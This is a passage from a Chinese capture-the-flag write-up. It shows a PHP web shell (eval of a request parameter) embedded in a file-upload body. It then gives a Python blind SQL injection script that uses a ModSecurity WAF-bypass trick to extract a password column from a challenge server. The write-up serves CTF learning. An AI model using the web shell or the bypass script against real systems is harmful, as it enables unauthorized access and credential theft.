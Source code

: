 ```

<?php eval($_REQUEST[1]);phpinfo();?>
------WebKitFormBoundarykhsd4wQ8UBmzCnD1

```

![image-20221203195238224](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212031952309.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212031953539.png)

![image-20221203195402783](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212031954835.png)

## ezbypass

hint 提示 waf 是 modsecurity

网上找到一篇参考文章

[https://blog.h3xstream.com/2021/10/bypassing-modsecurity-waf.html](https://blog.h3xstream.com/2021/10/bypassing-modsecurity-waf.html)

剩下就是照着它的 payload 用脚本直接梭, 因为题目提示 `Can you find my password?`, 所以猜 password 列的内容就行

```python
import requests
import time

flag = ''

i = 1

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.08)
        mid = (min + max) // 2
        print(chr(mid))

        payload = 'if(ascii 1.e(substring(1.e(select password from users.info),{},1))>{},1,0)'.format(i, mid)
        url = 'http://162.14.110.241:8099/sql.php?id={}'.format(payload)
        res = requests.get(url)
        if 'letian' in res.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    i += 1

    print('found', flag)
```
